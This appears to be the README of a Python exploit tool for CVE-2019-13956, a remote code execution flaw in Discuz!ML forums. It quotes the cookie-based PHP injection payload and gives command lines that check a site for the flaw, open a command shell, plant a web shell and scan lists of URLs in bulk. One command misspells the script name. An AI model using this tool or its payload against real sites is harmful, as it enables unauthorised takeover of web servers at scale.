 **Discuz ML RCE** <br/>
CVE ID : CVE-2019-13956
<br/>
**URL: https://www.esoln.net/blog/2019/06/14/discuzml-v-3-x-code-injection-vulnerability/**
<br/>
**CVE URL: https://nvd.nist.gov/vuln/detail/CVE-2019-13956**
<br/>
**CVE Mitre** : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13956


----------------
<br/>

Discuz!ML 3.2 through 3.4 allows remote attackers to execute arbitrary PHP code via a modified language cookie, as demonstrated by changing 4gH4_0df5_language=en to 4gH4_0df5_language=en'.phpinfo().'; (if the random prefix 4gH4_0df5_ were used). 


<br/>


----------------
**Installation** 

<br/>
python2.7<br/>
pip -r requirements.txt
<br/><br/>



----------------
**Help**

python discuz_mlRce.py -h



----------------
**Vulnerability Detection** 

python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" 

------
**GETTING Command Shell**

python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" --cmdshell
----------------

**GETTING Shell URL**


python ddiscuz_mlRce.py -u "http://www.ppp.cn/forum.php" --getshell
----------------

**Scanning List of URL** 

python discuz_mlRce.py -f urls.txt<br/>

----------
